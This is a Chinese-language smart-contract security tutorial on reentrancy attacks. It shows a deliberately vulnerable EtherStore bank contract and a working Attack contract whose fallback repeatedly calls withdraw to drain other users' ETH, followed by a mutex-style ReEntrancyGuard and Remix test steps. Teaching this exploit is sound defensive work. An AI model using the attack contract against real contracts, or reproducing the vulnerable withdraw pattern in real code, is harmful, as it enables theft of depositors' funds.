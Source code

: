 # 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
## 银行合约例子
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract EtherStore {
    //mapping类型的变量balances，它将用户地址映射到其在合约中的以太余额。
    mapping(address => uint) public balances;

    //deposit的函数，它允许用户将以太存入合约。
    //使用msg.sender来确定调用者的地址，并将msg.value中的以太数量添加到该地址的余额中。
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    /*
    withdraw的函数，它允许用户从合约中提取他们的以太余额。
    它首先检查调用者的余额是否大于零，如果不是，则函数会抛出异常。
    然后它使用msg.sender.call来将以太发送回调用者的地址。
    如果发送失败，则函数会抛出异常。
    最后，它将调用者的余额设置为零，以确保他们无法多次提取相同的余额。
    */
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // getBalance的帮助函数，它允许用户检查合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 攻击合约
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太。
   你将会得到3个以太（其中2个以太是从Alice和Bob那里被盗取的，另外1个以太是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)

```solidity
contract Attack {
    EtherStore public etherStore;

    //构造函数，接受一个EtherStore合约的地址作为参数，并将其存储在etherStore变量中。
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }
    
    //攻击函数，要求发送至少1 ether的以太。
    //将1 ether的以太存入etherStore合约中，然后立即调用etherStore的withdraw()函数以取回所有以太。
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
## remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。
![66-1.png](./img/66-1.png)
部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。
![66-2.png](./img/66-2.png)
